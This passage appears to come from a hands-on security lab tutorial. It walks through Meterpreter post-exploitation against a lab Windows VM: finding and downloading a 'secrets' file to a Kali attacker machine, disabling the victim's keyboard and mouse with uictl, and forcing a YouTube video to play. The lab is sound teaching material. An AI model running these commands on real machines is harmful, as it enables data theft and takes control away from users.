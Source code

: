 From the meterpreter session, use the `cd` command within Meterpreter to
navigate to the victim desktop. For that, you can either use the Windows
path specification, with double back-slashes:

    cd c:\\users\\Labuser\\desktop

... or you can use linux path specification:

    cd /Users/Labuser/desktop

Now type `ls` to see what you might pilfer.

Snag the secrets file.

    download [filename to steal]

The file should now be pilfered, saved to the Kali VM at `/root`.

You can also use the `search` command from within meterpreter to find the
location of the secrets file:

    search -f [name of your secrets file].txt



## Annoy the user

Rather than steal secrets, let's switch to pestering Labuser.

First, from meterpreter, disable their keyboard and mouse:

    uictl disable all

Then, play a video for them. We'll use the `play_youtube` post module. Read about it from within meterpreter:

    info post/multi/manage/play_youtube

The default youtube video set for this postmodule is excellent, but you can
optionally swap it out for one of your choosing. From your laptop or whatever,
select your favorite annoying youtube video. Note the url of the video -- it
will include a `v=[video id]` in it. Copy the video id. For example,
one video id is `DLzxrzFCyOs`. Let's play this video, setting VID to your
video. e.g.:

    run post/multi/manage/play_youtube VID=DLzxrzFCyOs

Switch over to the Windows VM and enjoy being annoyed by the video.
Close the video --oh wait you can't, your keyboard and UI access were disabled!
You are powerless!

As the attacker, let up on your shenanigans. From meterpreter, reenable
ui controls:

    uictl enable all

<div class='alert alert-info'>
  <p>
    <strong>Pop-up says "Video not available"?</strong>The documentation for this postmodule
  says the following: "Enabling the EMBED option will play the video in full screen mode through a clean interface
  but is not compatible with all videos." Try disabling EMBED by calling the module like this:
  </p>
  <p>
    <code>run post/multi/manage/play_youtube VID=DLzxrzFCyOs EMBED=false</code>
  </p>
</div>
